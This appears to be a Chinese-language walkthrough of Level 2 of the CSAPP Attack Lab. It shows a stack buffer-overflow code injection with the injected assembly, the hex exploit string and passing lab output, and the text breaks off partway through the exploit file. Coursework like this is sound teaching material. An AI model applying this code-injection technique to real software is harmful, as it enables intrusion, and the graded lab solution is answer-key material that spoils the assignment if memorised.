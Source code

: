 ~~~shell
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
---------------------------------------------------------------------------------------------------------------------------------------
~/new_space/CSAPP_Lab/Attack/target1 (master) »          
~~~

# Level 2
~~~c
1 void touch2(unsigned val)
2 {
3   vlevel = 2; /* 验证协议的一部分 */
4   if (val == cookie) {
5     printf("Touch2!：你调用了 touch2(0x%.8x)\n", val);
6     validate(2);
7   } else {
8     printf("未命中：你调用了 touch2(0x%.8x)\n", val);
9     fail(2);
10  }
11  exit(0);
12 }
~~~

要完成这个任务，我们需要构造一个攻击字符串，该字符串在执行到 `getbuf` 函数的 `ret` 指令时，能够重定向执行流到 `touch2` 函数，并且看起来像是 `touch2` 被正确调用了，即携带了正确的参数（你的 cookie）。


1. **找到 `touch2` 函数的地址**：首先，需要确定 `touch2` 函数的地址。这通常通过分析目标程序的符号表来完成。
2. **构造攻击代码**：你需要编写一小段汇编代码，这段代码将你的 cookie 值放入 `rdi` 寄存器（在 x86-64 架构中，函数的第一个参数通过 `rdi` 传递），然后执行 `ret` 指令。这段代码将替代 `getbuf` 函数的返回地址。
3. **确定缓冲区的大小和 `getbuf` 的返回地址**：你需要知道 `getbuf` 函数内部分配的缓冲区的大小，以及 `getbuf` 的返回地址在栈上的位置。这样，你就可以在缓冲区溢出时覆盖返回地址。
4. **构造完整的攻击字符串**：攻击字符串将包含你的攻击代码、一些填充字节（如果需要的话），以及 `touch2` 函数的地址。这个字符串将覆盖 `getbuf` 的栈空间，使得 `ret` 指令将控制权转移到你的攻击代码，然后你的代码将进一步跳转到 `touch2`。

这个过程的具体实现依赖于目标程序的具体内存布局和函数调用约定。以下是一个大致的攻击代码示例，假设你已经知道了 `touch2` 的地址和所需的 cookie 值：

```asm
movq $0x59b997fa, %rdi  
pushq $0x4017ec  
ret                        
```

将上述汇编代码转换为机器码，并构造出完整的攻击字符串。这个字符串首先包含一些填充字节（如果需要），然后是上述机器码，最后是 `getbuf` 函数返回地址处的 `touch2` 函数地址。攻击字符串的确切构造取决于栈的布局和缓冲区的大小。


*[master][~/new_space/CSAPP_Lab/Attack/target1]$ cat exploit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 93 DC 61 55 
*[master][~/new_space/CSAPP_Lab/Attack/target1]$ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 ~ │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
   3 ~ │ 68 ec 17 40 00          /* pushq  $0x4017ec */